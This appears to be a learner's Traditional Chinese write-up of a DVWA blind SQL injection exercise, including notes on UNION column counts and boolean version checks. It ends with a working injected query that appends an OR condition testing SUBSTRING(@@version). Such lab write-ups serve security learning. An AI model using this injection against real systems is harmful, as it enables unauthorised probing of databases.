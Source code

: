 ![Untitled](DVWA%2018a0425eb14f4c03822e8c563383e612/Untitled%2086.png)

### 分析

### 1. 如果要使用 UNION，那 UNION 左邊和右邊需要回傳一樣的欄位數量

### 2. 可以不透過 IF 來判斷版本

```sql
SELECT SUBSTRING((SELECT @@version),1,2) = 10 AS 'test';
```

掌握簡單的判斷

```sql
select 1=1 AS 'test';
```

```sql
select 1=2 AS 'test';
```

## 卡關

在這邊卡關了，因為太執著於用 SELECT,IF, UNION 的語法，後來看了一下提示的頁面，發現被遮住的答案提示長度並不常，代表應該有更簡短的寫法，因此改變方向，試著思考更簡短的判斷方式，就是 A AND B 這種形式的語法

接著順便重新梳理一下資訊，從推測程式語法的階段開始推敲:

可以假設原本的 SQL 大概長這樣

```sql
SELECT * FROM users WHERE id=0;
```

用 SQL injection 把它變成 `A OR B` 的形式就可以判斷 true false 了

```sql
SELECT * FROM users WHERE id=0 OR (SELECT SUBSTRING((SELECT @@version),1,2) = '10');
```
